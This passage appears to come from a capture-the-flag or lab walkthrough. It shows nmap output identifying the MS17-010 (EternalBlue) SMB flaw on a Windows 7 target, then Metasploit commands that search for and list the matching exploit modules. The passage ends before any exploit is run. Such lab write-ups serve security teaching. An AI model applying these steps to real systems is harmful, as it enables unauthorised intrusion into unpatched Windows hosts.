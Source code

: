 ```
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

### Key Findings

1. **3 ports open under 1000**: 135, 139, and 445
2. **Vulnerability identified**: MS17-010 (EternalBlue)
3. **Target OS**: Windows 7/Server 2008 R2

The scan reveals that the machine is vulnerable to **MS17-010**, the infamous EternalBlue vulnerability that was leaked from the NSA and used in the WannaCry ransomware attack.

## Task 2: Gaining Access

### Metasploit Exploitation

Let's use Metasploit to exploit the MS17-010 vulnerability:

1. **Start Metasploit:**
```bash
msfconsole
```

2. **Search for MS17-010 exploits:**
```bash
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Description
   -  ----                                           ---------------  ----     -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

